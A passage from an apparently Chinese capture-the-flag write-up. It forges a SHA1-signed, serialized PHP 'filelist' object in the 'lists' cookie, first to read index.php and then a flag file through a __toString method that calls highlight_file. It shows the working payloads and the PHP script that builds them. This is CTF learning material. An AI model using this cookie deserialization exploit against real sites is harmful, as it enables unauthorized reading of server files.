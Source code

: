 得到结果如下：

```
lists=16d8c3c46653e89932859dd7a2eb12fa59df777aO%3A8%3A%22filelist%22%3A1%3A%7Bs%3A6%3A%22source%22%3BO%3A8%3A%22filelist%22%3A1%3A%7Bs%3A6%3A%22source%22%3Bs%3A9%3A%22index.php%22%3B%7D%7D 
```

将之放到cookie之中的lists中可以得到了源码！

同理构造

```
<?php
Class filelist{
    public function __toString()
    {
        return highlight_file('hiehiehie.txt', true).highlight_file($this->source, true);
    }
}

$b= new filelist();
$b->source = '/var/www/PnK76P1IDfY5KrwsJrh1pL3c6XJ3fj7E_fl4g';
$a = array($b);
$d=serialize($a);
$e=sha1($d).$d;
echo urlencode($e);
?>
```

得到cookie

```
lists=579574889b2cc082443598ee85d9a4839698a948a%3A1%3A%7Bi%3A0%3BO%3A8%3A%22filelist%22%3A1%3A%7Bs%3A6%3A%22source%22%3Bs%3A46%3A%22%2Fvar%2Fwww%2FPnK76P1IDfY5KrwsJrh1pL3c6XJ3fj7E_fl4g%22%3B%7D%7D
```

<center>![这里写图片描述](img/161ce03526b780ffd72ffb7b17af4d9d.png)</center>
